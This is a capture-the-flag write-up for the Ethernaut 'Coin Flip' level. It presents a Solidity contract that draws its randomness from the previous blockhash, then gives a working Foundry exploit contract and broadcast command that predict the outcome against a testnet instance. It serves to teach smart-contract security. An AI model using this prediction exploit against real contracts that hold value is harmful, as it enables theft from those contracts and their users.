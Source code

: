 ```yaml
---
title: 'Coin Flip - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level3.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-17
lastmod: 2025-09-17
---
```


## Challenge Overview

This level presents a coin flipping game where you need to correctly guess the outcome of a coin flip 10 times in a row to win.

The challenge appears to rely on randomness from blockchain data, but this randomness is actually **predictable** because it uses publicly available block information. By calculating the same value off-chain, we can guarantee correct guesses every time.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

---

## Exploit Explanation

The vulnerability lies in the use of deterministic blockchain data for randomness:

```solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1;
```

* `blockhash(block.number - 1)` is **publicly available information** that anyone can access
* The calculation `blockValue / FACTOR` will always produce the same result for the same block
* Since we can perform this identical calculation ourselves, we can **predict the outcome** before calling the `flip()` function

The exploit involves:
1. Creating an attacker contract that calculates the flip outcome using the same logic
2. Calling the vulnerable contract's `flip()` function with the pre-calculated result
3. Repeating this process 10 times to achieve the required winning streak

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/CoinFlip.sol";

contract Exploit {
    uint256 constant FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip public coinFlipInstance;

    constructor(CoinFlip _coinFlipInstance) {
        coinFlipInstance = _coinFlipInstance;
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1;
        coinFlipInstance.flip(side);
    }
}

contract CoinFlipSolution is Script {
    CoinFlip public coinFlipInstance = CoinFlip(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        // Deploy exploit contract
        Exploit exploit = new Exploit(coinFlipInstance);
        
        // Execute the attack
        exploit.attack();
        
        // Verify results
        console.log("Number of wins:", coinFlipInstance.consecutiveWins());
        
        vm.stopBroadcast();
    }
}
```

Note: You'll need to run this script **10 times** (once for each required win), waiting for a new block between each execution since the contract prevents multiple calls in the same block.

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/CoinFlipSolution.s.sol --rpc-url $SEPOLIA_URL --tc CoinFlipSolution --broadcast
```

Repeat this command 10 times, ensuring each transaction is mined in a different block to bypass the `lastHash` check and build your winning streak.